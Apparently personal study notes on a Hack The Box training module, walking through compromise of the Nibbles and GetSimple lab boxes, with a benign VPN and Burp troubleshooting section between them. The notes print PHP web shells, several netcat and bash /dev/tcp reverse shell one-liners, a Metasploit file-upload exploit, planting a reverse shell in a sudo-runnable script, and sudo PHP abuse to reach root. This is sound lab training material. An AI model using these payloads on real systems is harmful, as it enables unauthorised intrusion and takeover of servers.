Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80

```

Now we have to find out where the file uploaded if it was successful. Going back to the directory brute-forcing results, we remember the /content directory. Under this, there is a plugins directory and another subdirectory for my_image. The full path is at http://<host>/nibbleblog/content/private/plugins/my_image/. In this directory, we see two files, db.xml and image.php, with a recent last modified date, meaning that our upload was successful! Let us check and see if we have command execution.

```
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We do! It looks like we have gained remote code execution on the web server, and the Apache server is running in the nibbler user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server.

Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are PayloadAllTheThings and HighOn,Coffee.

Let us use the following Bash reverse shell one-liner and add it to our PHP script.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

We will add our tun0 VPN IP address in the <ATTACKING IP> placeholder and a port of our choice for <LISTENING PORT> to catch the reverse shell on our netcat listener. See the edited PHP script below.

``` php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

We upload the file again and start a netcat listener in our terminal:

```
nc -lvnp 9443

listening on [any] 9443 ...
```

cURL the image page again or browse to it in Firefox at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.

```
nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as su will not work, we cannot use text editors, tab-completion does not work, etc. This post explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a Python one-liner to spawn a pseudo-terminal so commands such as su and sudo work as discussed previously in this Module.

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as Python2 seems to be missing from the system!

```
python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```

We have Python3 though, which works to get us to a friendlier shell by typing python3 -c 'import pty; pty.spawn("/bin/bash")'. Browsing to /home/nibbler, we find the user.txt flag as well as a zip file personal.zip.

```
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```

-----------------------

Gain a foothold on the target and submit the user.txt flag


This was very confusing for me. First, it wouldn't let me connect to the /nibbleblog/

Then just out of nowhere it did.

Once I finally got in, I did this.

```

msfconsole # start metasploit

use exploit/multi/http/nibbleblog_file_upload

set TARGET 0
show options
set RHOSTS 10.129.170.213

set LHOST 10.10.14.250
set LPORT 4444

exploit # the netcat has to happen before this

shell # Opens shell
python3 -c 'import pty; pty.spawn("/bin/bash")' # creats pretty shell
```

And in another window I ran

```
nc -nvlp 4444
```

That got me a reverse shell that let me find the user.txt file.


# Priv Esc

Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the personal.zip file and see a file called monitor.sh.

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

The shell script monitor.sh is a monitoring script, and it is owned by our nibbler user and writeable.

```
cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done
```

Says to get linPeas on the box, don't feel like it but here are the steps.

Let us put this aside for now and pull in LinEnum.sh to perform some automated privilege escalation checks. First, download the script to your local attack VM or the Pwnbox and then start a Python HTTP server using the command sudo python3 -m http.server 8080.

```
sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```

Back on the target type wget http://<your ip>:8080/LinEnum.sh to download the script. If successful, we will see a 200 success response on our Python HTTP server. Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it. We see a ton of interesting output but what immediately catches the eye are sudo privileges.

```
We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```


The nibbler user can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with sudo we should get a reverse shell back as the root user. Let us edit the monitor.sh file to append a reverse shell one-liner.

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh


If we cat the monitor.sh file, we will see the contents appended to the end. It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption. Execute the script with sudo:

```
sudo /home/nibbler/personal/stuff/monitor.sh 
```

Finally, catch the root shell on our waiting nc listener.

```
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```

From here, we can grab the root.txt flag. Finally, we have now solved our first box on HTB. Try to replicate all of the steps on your own. Try various tools to achieve the same effect. We can use many different tools for the various steps required to solve this box. This walkthrough shows one possible method. Make sure to take detailed notes to practice that vital skillset.

This all gets me the root file

# Common Pitfalls

While performing penetration tests or attacking HTB boxes/labs, we may make many common mistakes that will hamper our progress. In this section, we will discuss some of these common pitfalls and how to overcome them.
VPN Issues

We may sometimes face issues related to VPN connections to the HTB labs network. First, we should ensure that we are indeed connected to the HTB network.
Still Connected to VPN

The easiest method of checking if we have successfully connected to the VPN network is by checking whether we have Initialization Sequence Completed at the end of our VPN connection messages:

```
sudo openvpn ./htb.ovpn

...SNIP...

Initialization Sequence Completed
```

Another way of checking whether we are connected to the VPN network is by checking our VPN tun0 address, which we can find with the following command:

```
ifconfig
```

As long we get our IP back, then we should be connected to the VPN network.
Checking Routing Table

Another way to check for connectivity is to use the command sudo netstat -rn to view our routing table:

```
sudo netstat -rn

[sudo] password for user: 

Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         192.168.195.2   0.0.0.0         UG        0 0          0 eth0
10.10.14.0      0.0.0.0         255.255.254.0   U         0 0          0 tun0
10.129.0.0      10.10.14.1      255.255.0.0     UG        0 0          0 tun0
192.168.1.0   0.0.0.0         255.255.255.0   U         0 0          0 eth0
```

Pinging Gateway

From here, we can see that we are connected to the 10.10.14.0/23 network on the tun0 adapter and have access to the 10.129.0.0/16 network and can ping the gateway 10.10.14.1 to confirm access.

```
ping -c 4 10.10.14.1
PING 10.10.14.1 (10.10.14.1) 56(84) bytes of data.
64 bytes from 10.10.14.1: icmp_seq=1 ttl=64 time=111 ms
64 bytes from 10.10.14.1: icmp_seq=2 ttl=64 time=111 ms
64 bytes from 10.10.14.1: icmp_seq=3 ttl=64 time=111 ms
64 bytes from 10.10.14.1: icmp_seq=4 ttl=64 time=111 ms

--- 10.10.14.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3012ms
rtt min/avg/max/mdev = 110.574/110.793/111.056/0.174 ms
```

Finally, we can either attack an assigned target host on the 10.129.0.0/16 network or begin enumeration for live hosts.
Working on Two Devices

The HTB VPN cannot be connected to more than one device simultaneously. If we are connected on one device and try to connect from another device, the second connection attempt will fail.

For example, this can happen when our VPN connection is connected in our PwnBox, and then we try to connect to it from our Parrot VM at the same time. Alternatively, perhaps we are connected on our Parrot VM, and then we want to switch to a Windows VM to test something.
Checking Region

If we feel a noticeable lag in our VPN connection, such as latency in pings or ssh connections, we should ensure that we are connected to the most appropriate region. HTB provides VPN servers worldwide, in Europe, USA, Australia, and Singapore. Ideally, it would help if we tried to connect to the server closest to us to get the best possible connection.

To change our VPN Server, go to HackTheBox, click on the top-right icon that says Lab Access or Offline, click on Labs, and then click on OpenVPN. Once we do, we should be able to pick our VPN server location and pick any of the servers within that region:



Note: Users with a free subscription only can connect to 1-3 free servers in each region. Users with a VPN subscription can connect to VIP servers, which provide a faster connection with less traffic.
VPN Troubleshooting

In case we face any technical issues when connecting to the VPN, we can find detailed guidance on troubleshooting VPN connections on this HackTheBox Help page.
Burp Suite Proxy Issues

Burp Suite is a crucial tool during web application penetration tests (as well as other assessment types). Burp Suite is a web application proxy and can cause a few issues on our systems.

Burp Suite Proxy Issues

Burp Suite is a crucial tool during web application penetration tests (as well as other assessment types). Burp Suite is a web application proxy and can cause a few issues on our systems.
Not Disabling Proxy

When we turn the Burp proxy in our browser, Burp will start to capture our traffic and intercept our requests. This will make it stop any requests we make in the browser, i.e., visiting a page until we go to Burp, examine the request, and forward the request.

A common pitfall is forgetting to turn off the browser proxy after closing Burp, so it keeps intercepting our requests. If this happens, we will see that our browser is not loading any pages, so we should check if the browser proxy is still on. We can do that by clicking on the Foxy Proxy plugin icon in Firefox, and making sure it's set to Turn Off:

If we are not using a plugin like Foxy Proxy, we can check the browser's connection settings and make sure the proxy is turned off. Once we do, we should be able to continue browsing without any issues.
Changing SSH Key and Password

In case we start facing some issues with connecting to SSH servers or connecting to our machine from a remote server, we may want to renew or change our SSH key and password to make sure they are not causing any issues. We can do this with the ssh-keygen command, as follows:

```
ssh-keygen

Generating public/private rsa key pair.
Enter file in which to save the key (/home/parrot/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase):
Enter same passphrase again:

Your identification has been saved in /home/parrot/.ssh/id_rsa
Our public key has been saved in /home/parrot/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:...SNIP... parrot@parrot
The key's randomart image is:
+---[RSA 3072]----+
|            o..  |
|     ...SNIP     |
|     ...SNIP     |
|     ...SNIP     |
|     ...SNIP     |
|     ...SNIP     |
|     ...SNIP     |
|       + +oo+o   |
+----[SHA256]-----+
```

By default, SSH keys are stored in the .ssh folder within our home folder (for example, /home/htb-student/.ssh). If we wanted to create an ssh key in a different directory, we could enter an absolute path for the key when prompted. We can encrypt our SSH key with a password when prompted or keep it empty if we do not want to use a password.

# Knowledge Check

Let's put together everything we learned in this module and attack our first box without a guide.
Tips

Remember that enumeration is an iterative process. After performing our Nmap port scans, make sure to perform detailed enumeration against all open ports based on what is running on the discovered ports. Follow the same process as we did with Nibbles:

    Enumeration/Scanning with Nmap - perform a quick scan for open ports followed by a full port scan

    Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include whatweb and Gobuster

    If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.

    After identifying the technologies in use, use a tool such as Searchsploit to find public exploits or search on Google for manual exploitation techniques

    After gaining an initial foothold, use the Python3 pty trick to upgrade to a pseudo TTY

    Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials

    Organize this data offline to determine the various ways to escalate privileges to root on this target

There are two ways to gain a foothold—one using Metasploit and one via a manual process. Challenge ourselves to work through and gain an understanding of both methods.

There are two ways to escalate privileges to root on the target after obtaining a foothold. Make use of helper scripts such as LinEnum and LinPEAS to assist you. Filter through the information searching for two well-known privilege escalation techniques.

Have fun, never stop learning, and do not forget to think outside of the box!


-----------------------------

Questions in this section

Spawn the target, gain a foothold and submit the contents of the user.txt flag. 

```
nc -sV -sC 10.129.214.13

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://10.129.214.13:80/FUZZ -e .php -ic

.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5137ms]
                        [Status: 200, Size: 5485, Words: 422, Lines: 152, Duration: 5138ms]
index.php               [Status: 200, Size: 5485, Words: 422, Lines: 152, Duration: 5138ms]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 67ms]
data                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 2422ms]
plugins                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 58ms]
theme                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 76ms]

admin shows a sign in page

admin:admin works

Looking at the themes there is this in the file:

<?php if(!defined('IN_GS')){ die('you cannot load this page directly.'); }

Removing that and adding 
<?php system(id); ?>

Then running 
curl http://10.129.214.13/theme/Innovation/template.php

That gives me RCE, lets get a rev shell

Adding 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.250/5555 0>&1'"); ?>

Running the curl command gets me a rev shell and the user.txt file
```

After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag. 

Running sudo -l I get
```
sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

So I can just run any php command sudo I think.

I can read files with php

`sudo /usr/bin/php -r 'system("cat /root/root.txt");'`

That gets me root

